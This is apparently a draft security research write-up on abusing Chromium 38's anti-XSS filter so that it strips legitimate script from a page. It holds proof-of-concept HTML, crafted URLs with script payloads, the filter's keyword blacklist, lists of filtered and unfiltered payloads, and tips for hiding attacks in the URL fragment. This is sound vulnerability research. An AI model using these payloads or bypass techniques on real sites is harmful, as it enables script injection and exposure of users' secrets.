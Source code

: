 Exploiting the browser anti-XSS filter for fun and profit.
==========================================================
(First draft, with Chromium 38.0.2125.111)

Teaser :
--------

        <script>
            var e=eval;
            var eval=function(s){
                e(s.match(/\d+/g))
            }
        </script>

        <button onclick="eval(document.location.hash.substr(1))">
            Is it vulnerable ?
        </button>

Well, it sure shouldn't be vulnerable, right ? And still, it is !

Abstract
--------

!!! (Chromium 38.0.2125.111)

Proofs of concept
-----------------
    Story 1 : 
        "You can safely export your password, it will be encrypted anyway (using the awesome base64)"
            <script>var a = 'secret' ;</script>
            <script>a=btoa(a);</script>
            <script>alert(a);</script>

        "... Except with this URL"
            http://localhost/xss/cleartext.html#<script>a=btoa(a);

    Story 2 :
        "You won't lose your work, it is saved automagically when you close the project"
            <a onclick="alert('saved !')" href="out">
                close this project
            </a>
        "Except with this URL"
            http://localhost/xss/tags.html#onclick="alert('saved !')"


    From story 2, I guess there is a lot of fun stuff to do with angularJS apps ?
        well, nope. ng-X doesn't trigger..


    Story 3 :
        <script>
            var e=eval;
            var eval=function(s){
                e(s.match(/\d+/g))
            }
        </script>

        <button onclick="eval(document.location.hash.substr(1))">
            Is it vulnerable ?
        </button>

        http://localhost/xss/dom.html?%3Cscript%3E%0A%20%20%20%20var%20e%3Deval%3B%0A%20%20%20%20var%20eval%3Dfunction%28s%29%7B%0A%20%20%20%20%20%20%20%20e%28s.match%28/%5Cd%2B/g%29%29%0A%20%20%20%20%7D%0A#alert(1)

The filter
----------

Rules ?

    just being in the url is fine. No "real purpose" required
    starting or ending with <script

    all occurences removed

    between 2 <script , or inside a < > if there is a blacklisted keyword

    blank spaces sensitive

blacklist :

        onload
        onerror
        onmouseove
        onclick
        href="javascript:


Thoughts & tips
---------------

    differentiate 2 "black holes" using &
    Want to hide your attack from the server ? use # instead of ?

    Best case exploitation : we can remove any part of the legitimate script.
        it is not as good as execution, but still not bad !
        we're not there yet. not even close..

    Doesn't require any coding error from the dev. 
    Really, all it requires is about coding syntax, flow patterns etc... Tell me about weird !

    Main applications (speculation):

        disable sanitisation of inputs
            DOM-based XSS only, probably
        weaken client-side cryptography
            remove the seed init ? remove the encryption part ?
        unexpected app behavior



Data
----
Filtered :

    http://localhost/xss/manip.php#p=<script>alert(1)</script>
    http://localhost/xss/manip.php#p=<script>alert(1)
    http://localhost/xss/manip.php#<script>alert(1)
    echo.php?p=<img onerror="test"/>
    echo.php?p=<img onerr="test"/>
    echo.php?p=<img on="javascript:test"/>

Not filtered :
    
    http://localhost/xss/manip.php?p=alert(1)
    manip.php?p=<script src="s.js"></script>
    echo.php?p=<img/>
    echo.php?p=<img a="test"/>
    echo.php?p=<img on="test"/>
    http://localhost/xss/cleartext.php#%3Cscript%3Ea=btoa(a);%0Aalert(a);%0A%3C/script%3E
    http://localhost/xss/cleartext.php#%0Aa=btoa(a);%0A%3C/script%3E

bug ?

    http://localhost/xss/incl.html#<script src="s.js"></script>
        console says it is blocked, but really it runs.. ??

papers :
